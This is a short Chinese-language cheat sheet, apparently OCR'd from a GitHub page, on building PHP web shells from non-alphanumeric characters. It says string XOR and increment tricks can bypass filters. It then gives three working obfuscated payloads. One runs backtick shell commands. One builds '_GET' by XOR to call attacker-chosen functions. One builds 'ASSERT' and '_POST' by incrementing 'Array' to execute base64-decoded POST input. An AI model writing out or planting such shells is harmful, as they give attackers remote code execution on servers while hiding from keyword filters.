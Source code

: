 ##### 特殊字符Shell

PHP的字符串可以在进行异或、自增运算的时候，会直接进行运算，故可以使用特殊字符来构成Shell。

```
<?=`{${~"\xa0\xb8\xba\xab"}[~"\xa0"]}`;

```

```
@$_++;
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
@${$__}[!$_](${$__}[$_]);

```

```
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;
$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___(base64_decode($_[_]));

```
